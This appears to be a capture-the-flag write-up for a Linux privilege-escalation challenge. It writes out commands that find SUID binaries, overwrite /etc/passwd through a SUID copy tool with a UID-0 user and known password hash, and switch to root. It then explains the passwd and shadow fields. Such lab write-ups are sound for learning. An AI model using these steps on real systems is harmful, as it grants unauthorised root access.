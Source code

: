 # linux escalation
from `strings passwd in /usr/bin`
/etc/passwd
/etc/shadow
/usr/lib/debug/.dwz/x86_64-linux-gnu/passwd.debug

`grep -r -i "password" *`
pam.d looks interesting

elf@1db3e7354052:/bin$ find / -perm -4000 2>/dev/null
`/usr/bin/simplecopy` it has rwxs the `s` permission allows running for the root user

// simplecopy maybe allows copying of other files 
`./simplecopy `                   
Usage: ./simplecopy <source> <destination>


```
elf@9f255a4f6bc8:/tmp/myTmp$ echo 'hello:$1$hello$OYK6k6djmHg1dIhMlFMPA/:0:0:root:/root:/bin/bash' > passwd
elf@9f255a4f6bc8:/tmp/myTmp$ /usr/bin/simplecopy passwd /etc/passwd
elf@9f255a4f6bc8:/tmp/myTmp$ su hello
```

## Explained hello:$1$hello$OYK6k6djmHg1dIhMlFMPA/:0:0:root:/root:/bin/bash
`hello:x:0:0:root:/root:/bin/bash`
Username (hello): The name of the user.
Password (x): An x indicates that the password is stored in the /etc/shadow file.
UID (0): The User ID number. 0 is the UID for the root user, which gives full administrative privileges.
GID (0): The Group ID number. 0 is the GID for the root group.
GECOS (root): The GECOS field typically contains the full name of the user, but can also include other information like the user’s office location or phone number.
Home Directory (/root): The absolute path to the user's home directory. For the root user, this is typically /root.
Shell (/bin/bash): The absolute path to the user's default shell. /bin/bash is the Bash shell.

## Explanation of /etc/shadow Fields:
`hello:$1$hello$OYK6k6djmHg1dIhMlFMPA/:0:0:99999:7:::`
hello: Username.
$1$hello$OYK6k6djmHg1dIhMlFMPA/: Password hash.
0: Last password change (0 means user must change password at next login).
0: Minimum number of days between password changes.
99999: Maximum number of days the password is valid.
7: Number of days to warn user before password expiration.
Empty: Number of days after password expiration until account is disabled.
Empty: Account expiration date.
Empty: Reserved for future use.


## Finally
su to your new user
Go to the /root and run the file. and answer is `santa`